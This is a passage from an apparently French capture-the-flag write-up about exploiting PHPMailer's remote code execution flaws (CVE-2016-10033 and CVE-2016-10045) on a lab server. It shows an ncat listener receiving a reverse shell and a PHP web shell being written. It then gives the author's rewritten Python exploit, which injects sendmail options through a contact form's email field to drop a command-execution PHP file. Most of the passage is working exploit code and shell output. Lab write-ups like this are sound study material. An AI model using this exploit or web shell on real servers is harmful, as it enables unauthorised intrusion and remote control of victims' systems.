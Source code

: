 Pendant ce temps *Metasploit* envoie des requêtes régulières pour demander le fichier PHP qui devrait être déposé sur le serveur. C'est ce script qui contient le payload qui nous donnera par exemple le reverse shell demandé. Ainsi après un moment :  

```plain
$ ncat -l -p 4444 -v
Ncat: Version 7.92 ( https://nmap.org/ncat ) 
Ncat: Listening on :::4444 
Ncat: Listening on 0.0.0.0:4444 
Ncat: Connection from 192.168.101.132. 
Ncat: Connection from 192.168.101.132:33360. 
id 
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
pwd 
/www 
echo '<?php system($_GET["cmd"]); ?>' > shell.php 
```

My turn
-------

Après avoir solutionné le CTF (voir la suite) je me suis repenché sur l'exploit et les actions qu'il provoque sur le serveur. Ça semble plus logique de mettre cette partie à cet endroit de l'article.  

J'ai réécrit l'exploit en utilisant la librairie *python-requests*. Pour avoir du multipart il suffit de remplir le dictionnaire *files* mais par défaut *python-requests* rajoute un *filename* pour chaque entrée qui semble faire échouer l'exploitation. J'ai résolu le problème via l'utilisation du tuple *(None, str)* pour les valeurs (de mémoire le premier élément du tuple est le nom de fichier).  

```python
import sys 
import requests 

RW_DIR = "/www" 
URL = "http://192.168.101.132/contact" 

# PHPMailer < 5.2.18 Remote Code Execution PoC Exploit (CVE-2016-10033) 
payload = f'"attacker\\" -oQ/tmp/ -X{RW_DIR}/phpcode.php   some"@email.com' 

# Bypass / PHPMailer < 5.2.20 Remote Code Execution PoC Exploit (CVE-2016-10045) 
# payload = f"\"attacker\\' -oQ/tmp/ -X{RW_DIR}/phpcode.php   some\"@email.com" 

RCE_PHP_CODE = "zz<?php system($_GET['cmd']); ?>zz" 

response = requests.post( 
       URL, 
       files={ 
               "action": (None, "submit"), 
               "name": (None, RCE_PHP_CODE + "_name"), 
               "email": (None, payload), 
               "message": (None, RCE_PHP_CODE + "_message"), 
       }, 
) 
print(response.status_code)
```
